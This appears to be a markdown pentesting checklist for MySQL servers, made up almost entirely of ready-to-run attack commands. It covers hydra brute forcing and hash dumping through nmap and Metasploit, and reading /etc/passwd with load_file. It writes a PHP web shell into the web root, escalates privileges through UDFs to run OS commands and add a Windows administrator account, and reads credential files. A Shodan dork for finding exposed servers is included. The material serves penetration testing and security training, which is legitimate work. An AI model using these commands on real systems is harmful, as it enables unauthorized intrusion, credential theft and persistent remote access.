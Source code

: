 # MySQL Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating MySQL (port 3306), I realistically expect to find:

- [ ] Default or weak credentials
- [ ] Anonymous or empty-password accounts
- [ ] User password hashes for offline cracking
- [ ] Sensitive schema/data exposure
- [ ] File read/write on the host
- [ ] Privilege escalation via UDFs or misconfigurations
- [ ] Ability to execute OS commands

---

## ✅ MySQL Pentest Checklist

- [ ] **Port Scan & Service Detection**
  - Confirm port and version.
    ```
    nmap -sV -Pn -p3306 <IP>
    nmap --script=mysql-info -p3306 <IP>
    ```

- [ ] **Default & Anonymous Login Check**
  - Try direct connection with no password.
    ```
    mysql -u root
    mysql -u root -p
    mysql -h <IP> -u root
    mysql -h <IP> -u root@localhost
    ```

- [ ] **Nmap NSE Enumeration**
  - Use built-in scripts for comprehensive checks.
    ```
    nmap -sV -p3306 --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
    ```

- [ ] **Metasploit Modules**
  - Version scan:
    ```
    use auxiliary/scanner/mysql/mysql_version
    ```
  - Hash dumping (needs creds):
    ```
    use auxiliary/scanner/mysql/mysql_hashdump
    ```
  - Auth bypass & hash dump:
    ```
    use auxiliary/scanner/mysql/mysql_authbypass_hashdump
    ```
  - Schema dump (needs creds):
    ```
    use auxiliary/scanner/mysql/mysql_schemadump
    ```
  - Enum (needs creds):
    ```
    use auxiliary/admin/mysql/mysql_enum
    ```
  - Windows command exec (needs creds):
    ```
    use exploit/windows/mysql/mysql_start_up
    ```

- [ ] **Brute Forcing**
  - Use general brute-force strategies against MySQL:
    ```
    hydra -L users.txt -P passwords.txt mysql://<IP>
    ```

---

## ✅ Manual Enumeration

- [ ] **Basic Enumeration Commands**
    ```sql
    show databases;
    use <database>;
    show tables;
    describe <table_name>;
    select version();
    select @@version();
    select user();
    select database();
    ```

- [ ] **Privilege & User Checks**
    ```sql
    select grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
    select user, file_priv from mysql.user where user='root';
    ```

- [ ] **Read/Write Files**
    ```sql
    select load_file('/etc/passwd');
    select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '/var/www/html/shell.php';
    ```

- [ ] **Command Execution**
    ```sql
    select do_system('id');
    \! sh
    ```

- [ ] **Interesting Payloads**
    ```sql
    CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
    CONVERT(from_base64("aG9sYWFhCg=="), BINARY)
    ```

---

## ✅ Privilege Escalation & Exploitation

- [ ] **Change Root Password**
    ```sql
    UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
    UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
    FLUSH PRIVILEGES;
    ```

- [ ] **User Privilege Enumeration**
    ```sql
    select user();
    select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from mysql.user where user='<CURRENT_USER>';
    select User,Host,Password FROM mysql.user;
    select User,Host,authentication_string FROM mysql.user;
    ```

- [ ] **Privilege Escalation via UDF (Linux)**
    ```sql
    use mysql;
    create table npn(line blob);
    insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
    select * from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
    create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
    select sys_exec('id > /tmp/out.txt');
    ```

- [ ] **Privilege Escalation via UDF (Windows)**
    ```sql
    USE mysql;
    CREATE TABLE npn(line blob);
    INSERT INTO npn values(load_file('C://temp//lib_mysqludf_sys.dll'));
    SELECT * FROM npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
    CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
    SELECT sys_exec("net user npn npn12345678 /add");
    SELECT sys_exec("net localgroup Administrators npn /add");
    ```

---

## ✅ Post Exploitation

- [ ] **MySQL Command History**
    ```
    cat ~/.mysql_history
    ```

- [ ] **MySQL Configuration Files**
    - Linux:
        ```
        /etc/my.cnf
        /etc/mysql/my.cnf
        /var/lib/mysql/my.cnf
        ~/.my.cnf
        ```
    - Windows:
        ```
        C:\windows\my.ini
        <InstallDir>\mysql\data\
        ```
    - Debian Systems:
        ```
        cat /etc/mysql/debian.cnf
        ```

- [ ] **Extract Hashes from Files**
    ```
    grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
    ```

- [ ] **Enable Logging for Further Capture**
    - Edit:
        ```
        /etc/mysql/my.cnf
        ```
    - Example directives:
        ```
        general_log_file        = /var/log/mysql/mysql.log
        general_log             = 1
        ```

---

## ✅ Advanced Attack: Client-Side Arbitrary File Reads

- **PoC**
    ```sql
    load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
    ```
    - Needs "local" keyword!
    - Useful reference: [Rogue-MySql-Server PoC](https://github.com/allyshka/Rogue-MySql-Server)

---

## ✅ Shodan Dork

- [ ] Search for exposed MySQL servers:
    ```
    port:3306
    ```

---

## ✅ Resources

- [HackTricks MySQL Guide](https://book.hacktricks.xyz/pentesting/pentesting-mysql)
